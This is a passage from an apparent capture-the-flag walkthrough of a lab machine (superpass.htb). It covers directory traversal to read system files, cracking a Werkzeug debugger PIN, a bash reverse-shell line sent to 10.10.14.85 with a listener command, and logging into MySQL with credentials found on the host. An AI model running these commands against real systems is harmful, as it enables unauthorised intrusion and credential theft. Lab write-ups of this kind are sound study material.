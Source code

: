 The second part we need can be found using the directory traversal to /proc/self/cgroup: 

![image](https://user-images.githubusercontent.com/93153300/234539911-76c806c3-7a00-498d-9422-2ea00935ef4c.png) 

The part we need from the response is found after the last forward slash: superpass.service

Finally, add the superpass.service to the end of the /etc/machine-id: ed5b159560f54721827644bc9b220d00superpass.service
 
Step 10: Insert the information we found from step 9 into the source code for the werkzeug pin generator.  The source code for the werkzeug pin generator and instructions of exactly where to insert each piece of information can be found with a simple google search.  I used https://www.bengrewell.com/cracking-flask-werkzeug-console-pin and https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug.  

Since we do have a few options as to what is the correct ‘modname’ and the ‘name of the Flask application’, we will have to generate the pin for each option because a different ‘modname’ or a different ‘name of the Flask application’ will generate different pin values.  

Luckily, there is a script written on https://www.bengrewell.com/cracking-flask-werkzeug-console-pin that does this automatically for us and outputs all the possible pins.  Running the script shows: 
 
![image](https://user-images.githubusercontent.com/93153300/234539939-b16d2066-a034-4b88-9bee-774897fadfef.png) 
  
Insert the pin on the page ‘http://superpass.htb/download?fn=/../’ and see if it’s accepted:

![image](https://user-images.githubusercontent.com/93153300/234539655-9a8df4a1-6eeb-4b2e-8b27-fc1259d53ad8.png)

The first pin worked: 466-266-588.  

Step 11: Now that we have the werkzeug debugger to execute commands, open a netcat/pwncat listener to catch the reverse shell: pwncat-cs -lp 443

Next, enter the following code in the werkzeug debugger console to get a reverse shell:  __import__('os').popen('bash -c "bash -i >& /dev/tcp/10.10.14.85/443 0>&1"');

We have shell as www-data
____________________________________________
<b>Lateral Movement To User Corum:</b><br>
Step 1: Look at /etc/passwd to see the usernames on the target that have /bin/bash or /bin/sh shell:
 
![image](https://user-images.githubusercontent.com/93153300/234539979-482cd2cf-5ee5-4b96-bab4-f25843d1d2c6.png) 

The usernames we find are root, corum, runner, edwards, and dev_admin.  

Step 2: Looking around we find a file that contains credentials ‘superpassuser:dSA6l7q*yIVs$39Ml6ywvgK’:

![image](https://user-images.githubusercontent.com/93153300/234540016-02cd68dd-5067-4e3e-8557-81d6eddeeae0.png) 

Use these credentials to log into mysql: mysql -u superpassuser -p → enter password when prompted.

Step 3: Find the database names using the command: show databases;

![image](https://user-images.githubusercontent.com/93153300/234540063-0d02d996-1d62-4d4c-969c-09379c3617c8.png) 
 